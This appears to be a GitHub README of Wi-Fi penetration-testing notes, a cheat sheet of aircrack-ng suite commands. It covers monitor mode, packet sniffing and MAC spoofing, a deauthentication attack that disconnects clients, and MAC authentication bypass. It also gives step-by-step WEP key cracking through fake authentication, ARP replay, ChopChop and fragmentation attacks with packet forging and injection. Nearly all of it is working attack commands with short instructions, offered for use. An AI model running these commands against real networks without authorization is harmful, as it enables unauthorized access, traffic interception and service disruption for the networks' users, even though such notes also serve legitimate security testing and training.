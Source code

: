 # Wifi Sec pentest

## Status of the wifi card
```
sudo iwconfig
```

## Scanning Wifi
```
sudo iwlist wlan1 scan
```

See link quality continuously on screen
```
watch -n 1 cat /proc/net/wireless
```

Using wavemon to scanning wifi
```
sudo apt install wavemon
```
```
sudo wavemon
```

## Mac Change:
```
ifconfig [intname] down
ifconfig [intname] hw ether [new_mac]
ifconfig [intname] up
```

## Set monitor mode:
```
iwconfig
ifconfig [intname] down
airmon-ng check kill
iwconfig [intname] mode monitor
iwconfig
ifconfig [intname] up 
ifconfig
```

## Sniffing wifi:
```
airodump-ng intname_mon
airodump-ng --bssid [bssid] --channel [channel#] --write [file] [intname_mon]
```

## Deauthentication Attack:
```
aireplay-ng --deauth [#DeauthPackets] -a [NetworkMAC] -c [targetMAC] [Interface]
```

## Hidden Networks
Check with airodump-ng, then run a deauth attack and then in airodump-ng on ESSID name should get the hidden network name.

Mac Auth Bypass:
- Check airodump and find the open networks.
- Get airodump on specific network.
- Get a Host to connect, and get the STATION MAC.
- Change MAC to the STATION MAC.
```
ifconfig [intname] down
sudo macchanger -m [mac_add] [int_name]
```

## WEP Cracking

Busy network:
- Capture a large number of packet/IVs
```
airodump-ng --bssid [bssid] --channel [channel#] --write [fileName] [intname_mon]
```
- Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
		
Idle network: (force the AP to generate new IVs) - Fake Authentication
- Capture a large number of packet/IVs
```
airodump-ng --bssid [bssid] --channel [channel#] --write [fileName] [intname_mon]
```
- Fake Authentication
```
aireplay-ng --fakeauth 0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```

Generate traffic:
ARP request replay
```
aireplay-ng --arpreplay -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
- Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII


	ChopChop Attacks
1. Capture a packet and determine its key stream
```
aireplay-ng --chopchop -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
2. Forge a new packet
```
packetforge-ng  -0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] -k 255.255.255.255 -l 255.255.255.255 -y [outFromLastStep.xor] -w [output]
```
3. Inject the forge packet into the traffic to generate new IVs.
```
aireplay-ng -2 -r [outFromLastStep] [intname_mon]
```
4. Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
	
	Fragmentation Attacks
1. Obtain PRGA (pseudo random generation algorithm)
```
aireplay-ng --fragment -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
2. Forge a new packet
```
packetforge-ng  -0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] -k 255.255.255.255 -l 255.255.255.255 -y [outFromLastStep.xor] -w [output]
```
3. Inject the forge packet into the traffic to generate new IVs.
```
aireplay-ng -2 -r [outFromLastStep] [intname_mon]
```
4. Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
